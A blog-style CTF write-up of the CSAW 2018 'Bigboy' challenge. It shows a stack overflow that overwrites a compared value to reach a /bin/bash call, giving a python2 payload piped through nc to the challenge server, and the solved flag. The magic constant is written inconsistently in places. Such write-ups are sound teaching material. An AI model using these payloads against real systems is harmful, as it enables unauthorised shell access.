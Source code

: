 ```yaml
---
layout: post
title: CSAW CTF 2018 - Bigboy
image: "/assets/img/2018/csawctf2018/bigboy/1.png"
categories: [general, csawctf2018]
tags: [csawctf2018, writeup]
twitter_text: "Write-up for Bigboy"
introduction: "Write-up for Bigboy"
description: "Write-up for Bigboy"
---
```


![](/assets/img/2018/csawctf2018/bigboy/1.png)

First let's run the program to see what the program is about.

![](/assets/img/2018/csawctf2018/bigboy/2.png)

Now let's go to gdb to analyse the file. To begin I disassemble the main function, and I see a call to a function which name is "run_cmd". So I disassemble it too.

![](/assets/img/2018/csawctf2018/bigboy/3.png)

![](/assets/img/2018/csawctf2018/bigboy/4.png)

In this function there is some pretty good stuff, a call system !!!

After this I used IDA PRO. In the main function we can see :

```
cmp eax, 0xcafe3baee
```

![](/assets/img/2018/csawctf2018/bigboy/5.png)

That mean that if rax = 0xcaf3baee, the program will jump to the function with the call system !

Let's see the pseudo-code if I am right :

![](/assets/img/2018/csawctf2018/bigboy/6.png)

So we have :

```
HIDWORD(v7)= 0xdeadbeef;
....
if (HIDWORD(v7) == 0xcaf3baee)
	run_cmd("/bin/bash", &buf);
else
....
```

We have to find the padding to erase the value 0xdeadbeef by 0xcaf3baee. This should give us a shell.


Return into gdb to set a breakpoint on the cmp eax, 0xcafe3baee.


![](/assets/img/2018/csawctf2018/bigboy/7.png)


Run it with any value :

![](/assets/img/2018/csawctf2018/bigboy/8.png)

The program stop at the breakpoint, print the eax register : 

![](/assets/img/2018/csawctf2018/bigboy/9.png)

The value of RAX is still 0xffffffffdeadbeef, so we haven't modified the value of eax because we don't have the good padding. After a few try I get the good padding :

```
r <<< $(python2 -c 'print "A"*20+"B"*4')
```

Go to the breakpoint, try to print eax again :

![](/assets/img/2018/csawctf2018/bigboy/10.png)

And we can see that we control rax with 0x42424242(BBBB in hex).

So we can run the program with the padding (20) and the modified value to have rax=0xcafe3baee and get a shell.


![](/assets/img/2018/csawctf2018/bigboy/11.png)


Print $rax, we can see that the register is at the good value to have the shell. Continue the program, and there you have your /bin/bash !!!

![](/assets/img/2018/csawctf2018/bigboy/12.png)

The last step is to send the command in remote to get the flag :

```
python2 -c 'print "A"*20+"\xee\xba\xf3\xca"' > commands.txt
cat commands.txt - | nc pwn.chal.csaw.io 9000
```
![](/assets/img/2018/csawctf2018/bigboy/13.png)

And we got the flag :

> Flag : ```flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}```
